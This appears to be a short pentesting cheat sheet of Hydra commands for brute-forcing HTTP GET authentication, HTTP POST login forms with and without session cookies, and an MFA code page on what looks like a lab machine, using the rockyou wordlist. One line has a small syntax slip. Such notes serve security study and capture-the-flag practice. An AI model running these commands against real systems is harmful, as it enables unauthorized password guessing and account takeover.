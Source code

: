 https://www.hackingarticles.in/a-detailed-guide-on-hydra/
##### Bruteforce HTTP-Get
```
hydra -l USER -P /usr/share/wordlists/rockyou.txt IP -s PORT http-get /PATH`
```

##### Bruteforce HTTP-Post-form
Post entire Burp Suite output for the variables
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER&password=^PASS^:F=Invalid Password!"`
With cookie:
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER^&password=^PASS^:H=Cookie\: PHPSESSID=vi1l68d78tdu4c84uajqdjula4:F=fail"`

```
hydra -l jason -P list.txt 10.10.204.240 http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=l6jjj91qbp4867sesgnso2ti78; user=jason_test_account; pwd=abkr:Incorrect" -I -V
```
Note: the "incorrect" must always be the last parameter
